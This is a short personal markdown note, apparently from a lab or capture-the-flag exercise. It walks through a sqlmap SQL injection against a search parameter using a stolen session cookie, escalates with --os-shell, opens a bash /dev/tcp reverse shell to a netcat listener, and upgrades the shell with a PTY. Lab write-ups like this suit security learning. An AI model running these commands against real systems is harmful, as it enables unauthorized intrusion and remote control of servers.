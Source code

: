 # SQLMap
﷽
* Open-source tool for detecting SQLIs.

## usage

* we have to provide `sqlmap` with an URL and a cookie for it to find vulnerabilities.
### cookie aquiring
  * burp can be used by intercepting a request, or
  * an extension called `cookie-editor` can be added on to browser.
#### using cookie-editor
  * to use cookie-editor:
    * click on a cookie
    * the syntax will be like `name={name} and value={value}`
    * so, the cookie becomes {name}={value}, like:
    `PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1`

* our `sqlmap` query becomes something like:
  * `sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"`

  * respond to the questions the tool asks you with `y`, or `no` with `ENTER` being the default choice.

* in my case, I got the output `GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N]`.
  * this confirms the website is SQLI-prone.

* now, use the `--os-shell` flag, so we can get **command execution**:
  * `sqlmap -u '{website}' --cookie="{cookie}" --os-shell`

* to get a fully interactive shell, use `nc`:
* create a `nc` listener:
  * `sudo nc -lvnp 443`
* then, execute the following payload on the SQLMap server:
  * `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`

* we can make the shell fully vulnerable by using the following (on the `nc` shell):

  `python3 -c 'import pty;pty.spawn("/bin/bash")'
  CTRL+Z
  stty raw -echo
  fg
  export TERM=xterm`



